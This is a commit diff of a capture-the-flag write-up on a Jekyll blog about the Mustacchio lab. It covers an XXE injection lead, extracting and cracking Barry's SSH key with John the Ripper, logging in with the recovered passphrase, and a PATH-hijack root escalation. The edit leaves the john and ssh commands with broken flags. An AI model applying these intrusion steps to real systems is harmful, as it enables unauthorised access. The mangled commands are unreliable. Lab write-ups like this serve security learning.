

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-10-10-mustacchio.md, in a window 1280 px wide and 1400 px high, scrolled down 1624 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-10-10-mustacchio.md

```diff
--- a/_posts/2025-10-10-mustacchio.md
+++ b/_posts/2025-10-10-mustacchio.md
@@ -20,7 +20,7 @@
 ## Our scan shows:
 {% highlight bash %}
 /robots.txt and /custom
-> {% endhighlight bash %}
+{% endhighlight bash %}
 ************PIC
 <br>
 {% highlight bash %}
@@ -33,7 +33,7 @@
 ************PIC
 <br>
 ## /custom/js shows users backup file
-We will use strings to read the file
+## We will use strings to read the file
 ## strings shows:
 ************PIC
 
@@ -68,7 +68,7 @@
 {% highlight bash %}
 1. username: Barry
 2. ssh is allowed with the correct key
-3. there is a directory /auth/dontforget.bak
+3. another directory: /auth/dontforget.bak
 {% endhighlight bash %}
 ************PIC
 <br>
@@ -83,13 +83,12 @@
   < name>10DNC</name>
   < author>10DNC</author>
   < com>hacked</com>
-</comment> "
+</comment>
 {% endhighlight bash %}
-<br>
 <br>
 ## It looks like this is vulnerable to a XXE injection
 ## Let's check out example exploits found below:
-## [Injection#classic-xxe](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe)
+## [github.com/swisskyrepo/....Injection#classic-xxe](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe)
 <br>
 ## Let's modify and test the basic blind XXE vulnerability:
 {% highlight bash %}
@@ -118,6 +117,7 @@
 ************PIC
 -----------------
 ## We now get the ssh id_rsa key for barry
+<br>
 ## We can save this to text file:
 {% highlight bash %}
 $ nano id_rsa
@@ -132,11 +132,11 @@
 {% endhighlight bash %}
 ## Then use JTR to crack hash:
 {% highlight bash %}
-$ john -w=/usr/share/wordlists/rockyou.txt mustacchio_hash
+$ john - w=/usr/share/wordlists/rockyou.txt mustacchio_hash
 {% endhighlight bash %}
 ## Now we can login with ssh using our new credentials:
 {% highlight bash %}
-$ ssh -i id_rsa barry@target_IP
+$ ssh - i id_rsa barry@target_IP
 password: uriel james
 {% endhighlight bash %}
 <br>
@@ -164,7 +164,7 @@
 {% highlight bash %}
 echo "/bin/bash" > tail
 {% endhighlight bash %}
-<br>
+
 ## run the live_log:
 {% highlight bash %}
 /home/joe/live_log
```
